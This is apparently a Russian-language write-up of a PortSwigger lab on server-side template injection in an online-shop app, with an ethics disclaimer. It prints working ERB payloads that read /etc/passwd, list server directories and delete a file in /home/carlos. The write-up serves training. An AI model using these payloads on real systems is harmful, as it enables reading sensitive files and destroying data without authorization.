






# Basic Server-Side Template Injection

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.ru.md)  
- 🇬🇧 [English](WRITEUP.en.md)

## Дисклеймер
---

**Текст был написан и переведен автором вручную. Языковая модель использовалась для форматирования и стилистического редактирования.**

**Данный материал предоставлен исключительно в образовательных и исследовательских целях. Я не призываю и не одобряю несанкционированный доступ к информационным системам или нарушение закона. По моему мнению, одним из наиболее эффективных способов борьбы с киберпреступностью является просвещение как обычных пользователей и руководителей, так и разработчиков цифровых продуктов о распространенных уязвимостях, которые потенциально могут быть использованы злоумышленниками для совершения противоправных действий.**

**⚠️ Все действия, описанные в данном документе, были выполнены в среде, предназначенной для авторизованного тестирования (CTF/тестовая платформа), без нарушения прав третьих лиц или действующего законодательства.**

**Несанкционированное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки данных и другие формы так называемого "черного" хакерства противоречат законодательству и этике информационной безопасности.**

**Я придерживаюсь принципов этичных исследований и ответственного раскрытия уязвимостей.**

## Цель



Экземпляр приложения выглядит как интернет-магазин с забавными товарами в наличии:


## Функционал

Приложение ведет себя как типичный магазин Portswigger. Необычно то, что один из товаров отсутствует на складе (это всегда первый предмет):


Сообщение, указывающее, что определенный товар отсутствует на складе, передается следующим образом:



Возможная точка входа для `SSTI (Server-Side Template Injection — Server Side Template Injection)`!

## Эксплуатация

Описание лабы намекает, что для рендеринга такого контента используется шаблонизатор `ERB (Embedded Ruby)`. Чтобы проверить наличие `SSTI`, можно передать в запросе пейлоуды, конкретно для `ERB`, например:

``` Ruby
<%= 7 * 7 %>
```

Сработало! Приложение отобразило результат умножения!


Модифицированные выражения `ERB` можно использовать для демонстрации различных вредоносных действий. Например:

Вывести содержимое файла `/etc/passwd`:

``` Ruby
<%= File.open("/etc/passwd").read %>
```



Изучить содержимое сервера:

``` Ruby
<%= Dir.entries("/") %>
```



И, наконец, выполнить основную задачу лабы (найти и удалить файл `morale.txt`):

``` Ruby
<%= Dir.entries("/home") %>
```



``` Ruby
<%= File.delete("/home/carlos/morale.txt") %>
```



Туда его!^^


Спасибо за внимание! ^^